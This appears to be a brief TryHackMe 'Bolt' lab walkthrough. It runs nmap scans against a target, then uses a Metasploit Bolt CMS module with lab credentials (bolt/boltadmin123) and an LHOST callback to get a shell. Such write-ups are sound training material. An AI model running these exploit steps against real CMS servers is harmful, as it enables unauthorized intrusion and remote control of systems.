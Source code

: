 # Bolt

**Room Link:** [https://tryhackme.com/room/bolt](https://tryhackme.com/room/bolt)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (9).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (8).png" alt=""><figcaption></figcaption></figure>

###

**Kali**

```
msfconsole
```

**Kali(msfconsole)**

```
search bolt
use 0
set RHOST $VICTIM
set LHOST $KALI
set USERNAME bolt
set PASSWORD boltadmin123
set TARGETURI http://$VICTIM:8000
run
```

<figure><img src="../../.gitbook/assets/image (13) (1) (2).png" alt=""><figcaption></figcaption></figure>

